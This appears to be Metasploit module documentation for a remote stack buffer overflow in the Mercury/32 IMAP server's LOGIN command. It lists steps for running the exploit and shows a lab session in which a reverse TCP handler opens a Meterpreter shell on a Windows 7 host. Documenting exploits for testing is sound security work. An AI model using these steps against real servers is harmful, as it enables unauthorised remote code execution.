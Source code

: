 Mercury/32 <= 4.01b contains an stack based buffer overflow in IMAPD LOGIN verb. Sending an specially crafted IMAP login command allows remote code execution.

## Vulnerable Application

This module exploits a stack buffer overflow in Mercury/32 <= 4.01b IMAPD LOGIN verb. By sending a specially crafted login command, a buffer is corrupted, and code execution is possible. This vulnerability was discovered by (mu-b at digit-labs.org).
Here's a link to the software: http://web.archive.org/web/20070119125847if_/http://ftp.usm.maine.edu/pegasus/Mercury32/m32-401b.zip

## Verification steps

  1. Install the vulnerable Mercury/32 application
  2. Start msfconsole
  3. Do: `use exploit/windows/imap/mercury_login`
  4. Do: `set RHOST IP`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

### Mercury/32 v4.01a on Windows 7 SP1 x86
```
msf > use exploit/windows/imap/mercury_login1
msf exploit(windows/imap/mercury_login1) > set rhost 192.168.46.144
rhost => 192.168.46.144
msf exploit(windows/imap/mercury_login1) > exploit

[*] Started reverse TCP handler on 192.168.46.1:4444
[*] 192.168.46.144:143 - Sending payload (8931 bytes) ...
[*] Sending stage (179779 bytes) to 192.168.46.144
[*] Meterpreter session 1 opened (192.168.46.1:4444 -> 192.168.46.144:49219) at 2018-10-27 20:43:14 +0200

meterpreter >
Computer        : WIN-DQ8ELRSOJAO
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

